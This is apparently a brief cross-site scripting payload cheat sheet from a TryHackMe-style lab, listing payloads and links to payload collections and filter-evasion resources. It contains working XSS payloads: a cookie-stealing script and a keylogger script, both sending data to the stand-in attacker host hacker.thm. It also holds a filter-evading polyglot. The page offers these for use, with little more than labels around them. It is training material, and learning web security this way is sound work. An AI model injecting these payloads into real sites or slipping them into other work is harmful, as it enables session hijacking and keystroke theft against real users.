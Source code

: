 
- steal cookies:

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

- key logger:  
```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

```


- blind xss: [https://github.com/mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
- XSS polyglots:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

- [XSS Payload list](https://github.com/payloadbox/xss-payload-list)
- [Filter evasion cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
- [Tiny XSS payload](https://github.com/terjanq/Tiny-XSS-Payloads)
- https://labs.withsecure.com/publications/getting-real-with-xss 
- 
